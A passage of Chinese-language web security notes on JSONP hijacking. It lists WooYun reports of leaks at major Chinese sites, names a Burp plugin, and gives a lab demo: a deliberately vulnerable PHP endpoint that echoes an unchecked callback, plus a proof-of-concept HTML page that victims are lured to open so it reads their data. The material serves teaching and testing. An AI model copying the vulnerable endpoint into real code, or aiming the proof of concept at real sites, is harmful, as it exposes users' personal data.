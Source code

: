 **相关案例**
- [中国联通某站 jsonp 接口跨域导致信息泄漏并可开通某些套餐 (运营商额外插入功能带来的风险) ](http://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2016-0172305)
- [京东商城 JSONP+CSRF 导致某处信息泄露](http://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2015-0121266)
- [迅雷某站 jsonp 劫持漏洞泄漏会话 ID,cookie](http://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2015-0121639)
- [唯品会某处 JSONP+CSRF 泄露重要信息](http://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2015-0122755)
- [新浪微博之点击我的链接就登录你的微博(JSONP 劫持)](http://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2016-0204941)
- [苏宁易购多接口问题可泄露用户姓名、地址、订单商品 (jsonp 案例) ](http://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2015-0118712)
- [通过 jsonp 可以获得当前用户的 QQ+crsf 刷收听](http://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2014-070690)
- [利用 JSONP 劫持可以泄漏 QQ 号](http://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2014-065177)
- [京东商城某处 jsonp 接口可泄露任意用户的搜索记录](http://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2013-044210)
- [新浪微博 JSONP 劫持之点我链接开始微博蠕虫+刷粉丝](http://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2016-0171499)
- [fanwe O2O 用户密码可劫持 (通用/开源软件 jsonp 劫持案例) ](http://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2015-0124949)

**相关工具**
- [p1g3/JSONP-Hunter](https://github.com/p1g3/JSONP-Hunter) - JSONP Hunter in burpsuite.

**场景模拟**

```php
<?php
//test.php
header('Content-type: application/json');
$callback = $_GET['callback'];
print $callback.'({"username" : "test","phone" : "13888888888"});';
?>
```

```bash
# 服务器上运行这个简易的服务
php -S 0.0.0.0:9999
```

举例,存在信息泄漏的 JSONP 接口 http://127.0.0.1:9999/test.php?callback=xxx ，攻击者构造 POC 后诱导用户访问 POC，然后就会调用这个接口获取到敏感数据，获取到的敏感数据被攻击者截获了。

```html
<script>
    function xxx(data)
    {
      alert(data.username);
    }
</script>

<script src="http://127.0.0.1:9999/test.php?callback=xxx"></script>
```

保存为 html，诱导受害者访问.

#### SOME

> 同源方式执行

**简介**
